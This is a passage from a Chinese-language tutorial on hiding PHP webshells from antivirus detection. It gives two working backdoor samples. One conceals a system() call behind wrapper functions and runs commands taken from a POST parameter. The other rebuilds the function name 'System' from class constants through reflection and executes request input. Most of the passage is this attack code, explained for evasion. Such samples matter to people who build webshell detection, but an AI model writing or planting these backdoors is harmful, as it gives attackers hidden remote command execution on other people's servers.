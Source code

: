 通过自定义函数，将恶意代码内容隐藏于自定义函数当中，再进行拼接执行

### 10.1 简单自定义函数

这个要与其他的姿势进行结合，目前没办法通过简单自定义函数进行免杀

```php
function out($b){
    return $b;
}
function zhixin($a){
    return system($a);
}
function post(){
    return $_POST['aabyss'];
}

function run(){
    return out(zhixin)(out(post()));
}

run();
```

### 10.2 读取已定义函数


获取某个类的全部已定义的常量，不管可见性如何定义

```php
public ReflectionClass::getConstants(void) : array
```

例子如下：

```php
class Test
{
    const a = 'Sy';
    const b = 'st';
    const c = 'em';
    
    public function __construct(){
    }
}

$para1;
$para2;
$reflector = new ReflectionClass('Test');

for ($i=97; $i <= 99; $i++) {
    $para1 = $reflector->getConstant(chr($i));
    $para2.=$para1;
}

foreach (array('_POST','_GET') as $_request) {
    foreach ($$_request as $_key=>$_value) {
        $$_key=  $_value;
    }
}

$para2($_value);
```
